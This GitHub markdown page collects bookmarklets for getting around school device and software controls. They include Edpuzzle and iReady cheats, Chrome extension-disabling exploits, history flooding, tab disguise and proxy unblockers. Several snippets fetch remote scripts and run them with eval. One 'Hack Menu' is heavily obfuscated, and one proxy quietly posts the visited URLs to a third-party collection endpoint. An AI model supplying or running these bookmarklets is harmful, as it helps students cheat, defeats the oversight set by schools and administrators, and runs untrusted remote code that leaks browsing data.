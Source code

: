 ## ByePassHub > Exploits > Bookmarklets | updated dec 15
## If you like this, make sure to star it!
**If you need help on creating a bookmarklet**, Go [here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/CreatingBookmarklets.md) or to the CreatingBookmarklets file<br>
**Exploits/Bypasses:** Go [here](https://github.com/wea-f/ByePassHub/blob/main/Exploits/Exploits%5CBypasses.md) <br>  <br>
**Unblocker and game links**: Go [here](https://github.com/wea-f/ByePassHub/blob/main/mainUnblockers.md) or go to the mainUnblockers.md file. <br>
**Main game links:** [Here](https://github.com/wea-f/ByePassHub/blob/main/Games.md)  <br>
**Back to Starting Hub:** [Here](https://github.com/wea-f/ByePassHub/blob/main/README.md) 
### IF BOOKMARKLETS DON'T WORK, FOLLOW THESE [INSTRUCTIONS](https://github.com/wea-f/ByePassHub/blob/main/Exploits/Downgrading.md)
---

### This is a collection of bookmarklets<br>
### These can range from disabling extensions, auto clicking, inspect element, flooding your history, and more!
These are from [balls-remover](https://github.com/3kh0/balls-remover) and [Satz n' stuff](https://sites.google.com/site/satznstuff/home/bookmarklets), [this repo](https://github.com/legend7278/Bookmarklets), [ENS](https://sites.google.com/view/exploitsnstuff/bypass-tools/bookmarklets), and [this repo](https://github.com/TheRealMrGamz/Bookmarklets) <br>
Make sure to scroll all the way down for all the bookmarklets! <br>
## What it does | note if needed
## Edpuzzle Cheats credit: [ading2210](https://github.com/ading2210/edpuzzle-answers)
```js
javascript: fetch("https://cdn.jsdelivr.net/gh/ading2210/edpuzzle-answers@latest/script.js").then(r => r.text()).then(r => eval(r))
```
## History Flooder made by BlazerHM
```js
javascript:var num%3Dprompt%28"How many times do you want this page to show up in your history?");done=false;x=window.location.href;for (var i=1; i<=num; i++){history.pushState(0, 0, i==num?x:i.toString());if(i==num){done=true}}if(done===true){alert("History flooding successful!\n"+window.location.href+" should now appear in your history "+num+(num==1?" time.":" times! \n"))}
```
After executing, put the amount of times you want the page to show up, too many crashes chrome.
## LoMoH - disables extensions
```js
javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()
```
## LTBEEF - disables extensions
Before executing, go to ```https://chrome.google.com/webstorex```, if it says 404, it's fine. <br>
If this doesn't work, substitute the `x` for something else, like ```https://chrome.google.com/webstoreIReplacedItRightHere``` <br>
Once on the site, execute one of the two codes below. <br>
Next, switch off the extensions you want to disable <br>
```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
OR
```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
## Tab Disguise
```js
javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://www.pngall.com/wp-content/uploads/9/Google-Drive-Logo-Transparent-180x180.png';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);
```
## Ad Blocker
```js
javascript:(function(){    /* Ad-B-Gone: Bookmarklet that removes obnoxious ads from pages */    var selectors = [    /* By ID: */    '#sidebar-wrap', '#advert', '#xrail', '#middle-article-advert-container',    '#sponsored-recommendations', '#around-the-web', '#sponsored-recommendations',    '#taboola-content', '#taboola-below-taboola-native-thumbnails', '#inarticle_wrapper_div',    '#rc-row-container', '#ads', '#at-share-dock', '#at4-share', '#at4-follow', '#right-ads-rail',    'div#ad-interstitial', 'div#advert-article', 'div#ac-lre-player-ph',    /* By Class: */    '.ad', '.avert', '.avert__wrapper', '.middle-banner-ad', '.advertisement',    '.GoogleActiveViewClass', '.advert', '.cns-ads-stage', '.teads-inread', '.ad-banner',    '.ad-anchored', '.js_shelf_ads', '.ad-slot', '.antenna', '.xrail-content',    '.advertisement__leaderboard', '.ad-leaderboard', '.trc_rbox_outer', '.ks-recommended',    '.article-da', 'div.sponsored-stories-component', 'div.addthis-smartlayers',    'div.article-adsponsor', 'div.signin-prompt', 'div.article-bumper', 'div.video-placeholder',    'div.top-ad-container', 'div.header-ad', 'div.ad-unit', 'div.demo-block', 'div.OUTBRAIN',    'div.ob-widget', 'div.nwsrm-wrapper', 'div.announcementBar', 'div.partner-resources-block',    'div.arrow-down', 'div.m-ad', 'div.story-interrupt', 'div.taboola-recommended',    'div.ad-cluster-container', 'div.ctx-sidebar', 'div.incognito-modal', '.OUTBRAIN', '.subscribe-button',    '.ads9', '.leaderboards', '.GoogleActiveViewElement', '.mpu-container', '.ad-300x600', '.tf-ad-block',    '.sidebar-ads-holder-top', '.ads-one', '.FullPageModal__scroller',    '.content-ads-holder', '.widget-area', '.social-buttons', '.ac-player-ph',    /* Other: */    'script', 'iframe', 'video', 'aside#sponsored-recommendations', 'aside[role="banner"]', 'aside',    'amp-ad', 'span[id^=ad_is_]', 'div[class*="indianapolis-optin"]', 'div[id^=google_ads_iframe]',    'div[data-google-query-id]', 'section[data-response]', 'ins.adsbygoogle', 'div[data-google-query-id]',    'div[data-test-id="fullPageSignupModal"]', 'div[data-test-id="giftWrap"]' ];    for(let i in selectors) {        let nodesList = document.querySelectorAll(selectors[i]);        for(let i = 0; i < nodesList.length; i++) {            let el = nodesList[i];            if(el && el.parentNode)                el.parentNode.removeChild(el);        }    }})();
```
## Show Password | In case if you forget your password on the login screen lol
```js
javascript:Array.prototype.slice.call(document.querySelectorAll("input[type='password']")).map(function(el){el.setAttribute('type','text')})
```
## Inspect Element
```js
javascript: javascript:document.body.contentEditable = 'true'; document.designMode='on'; void 0
```
Another inspect element:
```js
javascript:(function()%7B(function() %7Bvar x %3D document.createElement("script")%3Bx.src %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FSnowLord7%2Fdevconsole%40master%2Fmain.js"%3Bx.onload %3D alert("Loaded Developer Console!")%3Bdocument.head.appendChild(x)%3B%7D)()%7D)()
```
## web browser
```js
javascript:((function()%7Bvar a,b,c;c="https://www.bing.com/",b=document.createElement("iframe"),b.setAttribute("src",c),b.setAttribute("id","rusic-modal"),b.setAttribute("style","position: fixed; z-index: 999999; width: 1333px; height: 768px; right: 10px; top: 10px; border: 5px solid #8834af; overflow: hidden; background-color: #fff;"),a=document.getElementsByTagName("body")%5B0%5D,a.appendChild(b)%7D)).call(this)
```
## Proxies (Unblockers)
```js
javascript:(function(){var bkmkltscript = document.createElement('script'); bkmkltscript.src = 'https://cdn.jsdelivr.net/gh/proxyhost/bookmarklets/aiobkmklt.js'; document.body.appendChild(bkmkltscript);})();
```
2nd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://nebula.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
3rd (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://ultraviolet-node.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
4th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://incognito.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
5th (opens in about:blank):
```js
javascript: var win = window.open(); var url = 'https://website-aio.galaxybender.repl.co/'; var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; iframe.src = url; win.document.body.appendChild(iframe);
```
6th (opens in about:blank):
```js
javascript:(function(){var url = prompt("Enter website url for cloaked page \n Made by Exploits N' Stuff"); var win = window.open(); var iframe = win.document.createElement(%27iframe%27); iframe.style="position:fixed;width:100vw;height:100vh;top:0px;left:0px;right:0px;bottom:0px;z-index:2147483647;background-color:white;border:none;"; if(url.includes('https://') || url.includes("http://")) {iframe.src = url;}else{iframe.src = "https://" + url;} win.document.body.appendChild(iframe);})();
```
7th:
```js
javascript:(()=>{let e='[1,2]';function t(e){return e.toString(16).padStart(2,'0')}function o(e){let o=new Uint8Array((e||40)/2);return window.crypto.getRandomValues(o),Array.from(o,t).join('')}let n=o(20);function r(e,t){return prompt('[Legend7269s proxy]\n'+e,t)}function a(e){return confirm('[Legend7269s proxy]\n'+e)}function l(e){return alert('[92dev proxy]\n'+e)}function c(){let e=r('Enter the URL to access:');return null===e||''===e.trim()?null:e=new URL((e=e.replace(%27-%27,%27%27)).indexOf(%27http%27)?%27http://%27+e:e)}function i(e,t){fetch(%27https://dev.92spoons.com/api/fakehacks/proxy/collect.php%27,{method:%27POST%27,headers:{%27Content-Type%27:%27application/json%27},body:JSON.stringify({url:e,version:%271.0.0%27,from:window.location.href,sessionRandomId:n,proxy:t}),mode:%27cors%27})}!function t(){let o=c();if(null===o)return;let n=new URL(o);!function t(){let l=r(%27Proxy method to use:\nCurrently available proxies are numbered %27+e+%27.%27,1);null!==l&&(1==l?(i(o,1),window.location.href=%27https://webcache.googleusercontent.com/search?q=cache%3A%27+encodeURIComponent(n)):2==l?(i(o,2),window.location.href=%27https://%27+n.hostname.replace(/\./g,%27-%27)+%27.translate.goog%27+n.pathname+%27?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp%27):(i(o,%27oob%27),a(%27That proxy id is invalid. Please choose a proxy in the range %27+e+%27.\nIf none of the proxies are working for you, you can ask for more at https://github.com/Legend7269/Bookmarklets%27)&&t()))}()}()})();
```
## Calculator | doesn't show in your history
```js
javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()
```
## Dictionary | Highlight words and it shows you the definition, again, doesn't show in your history
```js
javascript:var q=escape(window.getSelection()),i,ii;if(!q){for(i=0;i<frames.length;i++){var fr=frames[i];try{q=escape(fr.getSelection())}catch(e){};if(q)break;else{for(ii=0;ii<fr.frames.length;ii++){try{q=escape(fr.frames[ii].getSelection())}catch(e){};if(q)break;}}}}if(!q)void(q=prompt('Enter word to define%3A',''));if(q)void(location.href='http://www.dictionary.com/cgi-bin/dict.pl?term=%27+q);```
```
## Font Finder 
```js
javascript:(function(){var d=document,s=d.createElement('scr'+'ipt'),b=d.body,l=d.location;s.setAttribute('src','http://chengyinliu.com/wf.js?o='+encodeURIComponent(l.href)+'&t='+(new Date().getTime()));b.appendChild(s)})();
```
## Unblocked Youtube
```js
javascript:(function () {if (window.location.toString().includes('www.youtube.com/watch?v%27)) { window.open(%27https://www.youtube-nocookie.com/embed/%27 + window.location.toString().split(%27=%27)[1]) }})()
```
## Hack Menu
```js
javascript:function _0x54f5(_0x4c9444,_0x4ac2af){const _0x17ddb2=_0x380f();return _0x54f5=function(_0x19dcc8,_0x9a0e40){_0x19dcc8=_0x19dcc8-0x8e;let _0x227425=_0x17ddb2[_0x19dcc8];return _0x227425;},_0x54f5(_0x4c9444,_0x4ac2af);}function _0x380f(){const _0x378644=['4171185PbwjuA','return\x20(function()\x20','search','5022212nNDxnN','{}.constructor(\x22return\x20this\x22)(\x20)','iframe','prototype','log','error','(((.+)+)+)+$','console','https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js','#U3Yq73','appendChild','18370weTWYU','201365CDUwAl','apply','10kSarUU','bind','710569iOGDqM','__proto__','contentWindow','2BdVBzH','display','21QJQsgN','none','3587043RPUKBC','style','3001304NoJSZJ','trace','catch','toString','warn','table','U3Yq73','66qdZbUl','get','https://login.i-ready.com/','querySelector','2508jetZRn','fetch','constructor','then','exception','info'];_0x380f=function(){return%20_0x378644;};return%20_0x380f();}const%20_0xadefc0=_0x54f5;(function(_0x507ca9,_0x365979){const%20_0x2a1e1a=_0x54f5,_0x105b91=_0x507ca9();while(!![]){try{const%20_0x43c327=parseInt(_0x2a1e1a(0xaa))/0x1+-parseInt(_0x2a1e1a(0xad))/0x2*(parseInt(_0x2a1e1a(0xb1))/0x3)+parseInt(_0x2a1e1a(0x9a))/0x4+-parseInt(_0x2a1e1a(0xa6))/0x5*(parseInt(_0x2a1e1a(0xba))/0x6)+-parseInt(_0x2a1e1a(0xaf))/0x7*(-parseInt(_0x2a1e1a(0xb3))/0x8)+parseInt(_0x2a1e1a(0x97))/0x9*(-parseInt(_0x2a1e1a(0xa8))/0xa)+parseInt(_0x2a1e1a(0xa5))/0xb*(-parseInt(_0x2a1e1a(0x91))/0xc);if(_0x43c327===_0x365979)break;else%20_0x105b91['push'](_0x105b91['shift']());}catch(_0x5c4471){_0x105b91['push'](_0x105b91['shift']());}}}(_0x380f,0x9c5b0));const%20_0x3d141d=(function(){let%20_0x3b4fcd=!![];return%20function(_0x2843ca,_0x598a6a){const%20_0x228da5=_0x3b4fcd?function(){if(_0x598a6a){const%20_0x1eae74=_0x598a6a['apply'](_0x2843ca,arguments);return%20_0x598a6a=null,_0x1eae74;}}:function(){};return%20_0x3b4fcd=![],_0x228da5;};}()),_0x108e71=_0x3d141d(this,function(){const%20_0x3001d5=_0x54f5;return%20_0x108e71[_0x3001d5(0xb6)]()['search']('(((.+)+)+)+$')[_0x3001d5(0xb6)]()[_0x3001d5(0x93)](_0x108e71)[_0x3001d5(0x99)](_0x3001d5(0xa0));});_0x108e71();const%20_0x9a0e40=(function(){let%20_0x19a019=!![];return%20function(_0x122e62,_0x48c927){const%20_0x16892c=_0x19a019?function(){const%20_0x3707ca=_0x54f5;if(_0x48c927){const%20_0x6eb7c3=_0x48c927[_0x3707ca(0xa7)](_0x122e62,arguments);return%20_0x48c927=null,_0x6eb7c3;}}:function(){};return%20_0x19a019=![],_0x16892c;};}()),_0x19dcc8=_0x9a0e40(this,function(){const%20_0x4c4646=_0x54f5;let%20_0x5844cb;try{const%20_0x565505=Function(_0x4c4646(0x98)+_0x4c4646(0x9b)+');');_0x5844cb=_0x565505();}catch(_0x404f45){_0x5844cb=window;}const%20_0x39ccf2=_0x5844cb[_0x4c4646(0xa1)]=_0x5844cb[_0x4c4646(0xa1)]||{},_0x16d310=[_0x4c4646(0x9e),_0x4c4646(0xb7),_0x4c4646(0x96),_0x4c4646(0x9f),_0x4c4646(0x95),_0x4c4646(0xb8),_0x4c4646(0xb4)];for(let%20_0xdc9bb5=0x0;_0xdc9bb5%3C_0x16d310['length'];_0xdc9bb5++){const%20_0x12b77a=_0x9a0e40[_0x4c4646(0x93)][_0x4c4646(0x9d)][_0x4c4646(0xa9)](_0x9a0e40),_0x5b8d1a=_0x16d310[_0xdc9bb5],_0x56dd77=_0x39ccf2[_0x5b8d1a]||_0x12b77a;_0x12b77a[_0x4c4646(0xab)]=_0x9a0e40[_0x4c4646(0xa9)](_0x9a0e40),_0x12b77a[_0x4c4646(0xb6)]=_0x56dd77[_0x4c4646(0xb6)]['bind'](_0x56dd77),_0x39ccf2[_0x5b8d1a]=_0x12b77a;}});_0x19dcc8();try{if(document[_0xadefc0(0x90)](_0xadefc0(0xa3))===null){let%20iframe=document['createElement'](_0xadefc0(0x9c));iframe['src']=_0xadefc0(0x8f),iframe['id']=_0xadefc0(0xb9),iframe[_0xadefc0(0xb2)][_0xadefc0(0xae)]=_0xadefc0(0xb0),document['body'][_0xadefc0(0xa4)](iframe),iframe['onload']=()=%3E{const%20_0x5777e2=_0xadefc0;window[_0x5777e2(0x8e)]=async(_0x2a1cca,_0x441e01)=%3E{return%20new%20Promise((_0x221243,_0x497907)=%3E{const%20_0x3511cd=_0x54f5;U3Yq73[_0x3511cd(0xac)][_0x3511cd(0x92)](_0x2a1cca,_0x441e01)[_0x3511cd(0x94)](_0x542415=%3E{_0x221243(_0x542415);})[_0x3511cd(0xb5)](_0x28799b=%3E{_0x497907(_0x28799b);});});},get('https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js')[_0x5777e2(0x94)](_0x230289=%3E_0x230289['text']())['then'](_0xd96b0c=%3Eeval(_0xd96b0c))['catch'](_0x30a455=%3Ealert(_0x30a455));};}else%20get(_0xadefc0(0xa2))[_0xadefc0(0x94)](_0x344e55=%3E_0x344e55['text']())[_0xadefc0(0x94)](_0x21ad45=%3Eeval(_0x21ad45))[_0xadefc0(0xb5)](_0x7c3551=%3Ealert(_0x7c3551));}catch(_0x859f92){alert('Error\x20while\x20loading\x20nullify.\x20This\x20could\x20be\x20because\x20you\x20are\x20not\x20on\x20iReady\x20or\x20because\x20of\x20a\x20patch');}
```
## Close Active Bookmarklets
```js
javascript:var element = document.getElementById("rusic-modal"); element.parentNode.removeChild(element);
```
